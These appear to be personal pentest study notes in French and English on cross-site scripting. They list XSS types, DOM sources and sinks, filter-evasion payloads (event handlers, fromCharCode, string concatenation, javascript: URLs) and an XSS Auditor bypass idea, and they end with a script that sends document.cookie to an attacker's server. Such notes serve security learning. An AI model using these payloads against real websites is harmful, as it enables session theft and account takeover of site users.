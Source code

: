 # XSS

## XSS - Cross-Site Scripting

Le but de cette attaque est d’injecter un script malveillant via une entrée utilisateur qui n’est pas sécurisée.

### Reflected

L'input de l'utilisateur est envoyé au serveur puis réfléchis sur la page.

### Stored

Pareil sauf que l'input est en plus persisté.

### DOM

L'input est directement inséré dans le DOM \(donc sans passer par le serveur\).

#### Sources \(where the input goes\)

* document.url
* document.referrer
* location
* location.href
* location.search
* location.hash
* location.pathname
* ...

#### Sinks \(where the input ends up\)

* element.innerHTML\(\)
* element.outerHTML\(\)
* eval\(\)
* setTimeout\(\)
* setInterval\(\)
* document.write\(\)
* document.writeln\(\)
* ...

#### Tips & Tricks

1. Un tag `<script>alert();</script>` inséré via `inner.html` ne sera en fait pas executé. Vaut mieux passer par un `<img src="test" onerror="alert(1337)" />`, ou encore plus simple : `<svg onload="alert(1337)">`

### Polygots

XSS payloads made from a mixure of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

### Tips

* Start by checking which character are escaped by using them with a normal string that you can easily find in the result. Also use lists with _burp intruder_.
* Si les `<script>` ne sont pas accepté, utiliser les événements de type `onfocus`, `onload`, etc. Btw you can accumulate fonction in these event by separating them with `;`.
* `<sCRipt>` tag aren't case sensitive
* If the string tag is accepted but not word like "alert", xou can do things like :
  * `eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))`
  * `eval("al"+"ert(1)")`
* Avec le http parameter pollution, s’il est concaténé, on peut aussi faire du xss
* C'est aussi possible de passer par du HTML5/CSS3/SVG
* [https://www.owasp.org/index.php/XSS\_Filter\_Evasion\_Cheat\_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* `javascript:alert(1337)` as url \(form action for example\)
* `data:text/html,<script>alert(0)</script>` in url
* Avec ce code

  ```javascript
  let name = (new URL(location).searchParams.get('name'))
  eval(`var = "bonjour ${name}"`)
  ```

On peut lui donner ce payload : `name="-alert(1337)-"` Mais j'ignore pourquoi les "-" font que ça marche, du coup ce que j'ai fait moi pour pas avoir d'erreur c'est : `name=";alert(1337);tmp="`

* Pour créer une string sans utiliser "" y'a 2 techniques :
  * eval du regex : `eval(/alert(1337)/.source())`
  * tostring un nombre avec une base : `17795081..toString(36)` \(j'ignore pourquoi le second . est obligatoire\)
* Break out of html comment : Si `<?php>` \(ou `<?>` car c'est son raccourci\) sont présent dans la réponse html, les navigateurs vont transformer ça en `<!--php-->` car ils ne veulent pas que du code serveur se retrouve accidentellement sur le client. Hors, les commentaires imbriqués n'existant pas en html, si on fait ça à l'intérieur d'un commentaire, ça va le terminer prématurement.
*  is a sign of using a django framework
* https can be in all caps \(HTTPS\)
* `google.com/jsapi?callback=alert` can be used to received a function in a callback

## XSS Auditor

* Il existe sur Chrome, pas sur firefox et je sais pas pour les autres
* Il risque de bientôt disparaître car il amène des vulnérabilités et permet aux devs de moins faire attention/moins corriger leurs failles XSS
* L’auditeur permet de remarquer des injections XSS. Pour cela, il compare ce qui est passé dans l’url aux scripts de la page \(très gros résumé\).
* Du coup, si on injecte le même script qu’un existant déjà dans la page, l’auditeur va le disable, pensant qu’il vient de nous, ce qui peut nous permettre d’ensuite faire d’autre choses

## How attacker actually get cookie

By example by injection this script :

```text
<script>
document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

